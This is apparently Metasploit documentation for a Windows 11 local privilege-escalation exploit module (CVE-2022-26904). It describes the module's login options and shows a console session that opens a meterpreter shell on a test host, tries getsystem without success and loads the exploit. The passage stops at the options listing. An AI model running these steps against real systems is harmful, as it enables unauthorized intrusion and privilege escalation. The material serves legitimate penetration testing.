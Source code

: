 ## Options

### LOGINUSER

The username of a valid user who has logged into the target system before and has a profile under `C:\Users` with their username in
`C:\Users\<username>.<domain>\` format if targetting a domain user or `C:\Users\<username>\` if targetting a local user account. This user
must not be an administrator or any account that would run with High integrity to ensure the UAC prompt appears as expected, and should ideally
be another normal user account that has permissions to log into the target computer.

### LOGINPASSWORD

The password for the LOGINUSER user.

### LOGINDOMAIN

The domain that the LOGINUSER belongs to and which we will log into.

## Scenarios

### Windows 11 Build 10.0.22000.556

```
msf6 payload(windows/x64/meterpreter/reverse_tcp) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 172.19.78.176
RHOST => 172.19.78.176
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.19.78.176:4444
[*] Sending stage (200262 bytes) to 172.19.78.176
[*] Meterpreter session 1 opened (172.19.70.15:38009 -> 172.19.78.176:4444 ) at 2022-03-28 17:17:13 -0500

meterpreter > getuid
Server username: WIN11-TEST\normal
meterpreter > sysinfo
Computer        : WIN11-TEST
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : TESTINGDOMAIN
Logged On Users : 10
Meterpreter     : x64/windows
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2022_26904_superprofile
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2022_26904_superprofile) > show options

Module options (exploit/windows/local/cve_2022_26904_superprofile):

```